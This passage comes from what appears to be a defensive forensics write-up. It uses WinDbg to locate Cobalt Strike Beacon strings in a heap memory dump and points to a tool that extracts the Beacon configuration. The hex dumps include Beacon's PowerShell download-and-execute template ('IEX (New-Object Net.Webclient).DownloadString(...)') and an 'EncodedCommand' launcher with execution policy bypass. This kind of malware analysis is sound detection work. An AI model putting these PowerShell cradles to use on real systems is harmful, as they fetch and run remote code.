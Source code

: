 ```
0:000> db 00000000`0067e9a3
00000000`0067e9a3  25 73 2e 34 25 30 38 78-25 30 38 78 25 30 38 78  %s.4%08x%08x%08x
00000000`0067e9b3  25 30 38 78 25 30 38 78-2e 25 30 38 78 25 30 38  %08x%08x.%08x%08
00000000`0067e9c3  78 25 30 38 78 25 30 38-78 25 30 38 78 25 30 38  x%08x%08x%08x%08
00000000`0067e9d3  78 25 30 38 78 2e 25 30-38 78 25 30 38 78 25 30  x%08x.%08x%08x%0
00000000`0067e9e3  38 78 25 30 38 78 25 30-38 78 25 30 38 78 25 30  8x%08x%08x%08x%0
00000000`0067e9f3  38 78 2e 25 30 38 78 25-30 38 78 25 30 38 78 25  8x.%08x%08x%08x%
00000000`0067ea03  30 38 78 25 30 38 78 25-30 38 78 25 30 38 78 2e  08x%08x%08x%08x.
00000000`0067ea13  25 78 25 78 2e 25 73 00-25 73 2e 33 25 30 38 78  %x%x.%s.%s.3%08x
```

To double check it, let's look for another specific string that matches a default Cobalt Strike profile:

```
0:000> s -a 0`00650000 0`006a2000 "IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:%u/'); %s"
00000000`0067f4b7  49 45 58 20 28 4e 65 77-2d 4f 62 6a 65 63 74 20  IEX (New-Object
```

We can now display the bytes and we can see that this pattern does matches the default Cobalt Strike profile:

```
0:000> db 00000000`0067f4b7
00000000`0067f4b7  49 45 58 20 28 4e 65 77-2d 4f 62 6a 65 63 74 20  IEX (New-Object 
00000000`0067f4c7  4e 65 74 2e 57 65 62 63-6c 69 65 6e 74 29 2e 44  Net.Webclient).D
00000000`0067f4d7  6f 77 6e 6c 6f 61 64 53-74 72 69 6e 67 28 27 68  ownloadString('h
00000000`0067f4e7  74 74 70 3a 2f 2f 31 32-37 2e 30 2e 30 2e 31 3a  ttp://127.0.0.1:
00000000`0067f4f7  25 75 2f 27 29 3b 20 25-73 00 70 6f 77 65 72 73  %u/'); %s.powers
00000000`0067f507  68 65 6c 6c 20 2d 6e 6f-70 20 2d 65 78 65 63 20  hell -nop -exec 
00000000`0067f517  62 79 70 61 73 73 20 2d-45 6e 63 6f 64 65 64 43  bypass -EncodedC
00000000`0067f527  6f 6d 6d 61 6e 64 20 22-25 73 22 00 43 6f 75 6c  ommand "%s".Coul
```

To finalize it, we can now extract the Cobalt Strike Beacon configuration by running this Python script against the Heap Memory Dump file:

![image](https://github.com/DebugPrivilege/InsightEngineering/assets/63166600/7f040c51-c75d-4c6d-9008-b94096fad87f)


# References

- **Extracting Cobalt Strike from Windows Error Reporting:** https://bmcder.com/blog/extracting-cobalt-strike-from-windows-error-reporting
- **CobaltStrikeBeacon_Default.profile:** https://github.com/h3ll0clar1c3/CRTO/blob/main/CobaltStrikeBeacon_Default.profile
- **1768.py:** https://blog.didierstevens.com/programs/cobalt-strike-tools/
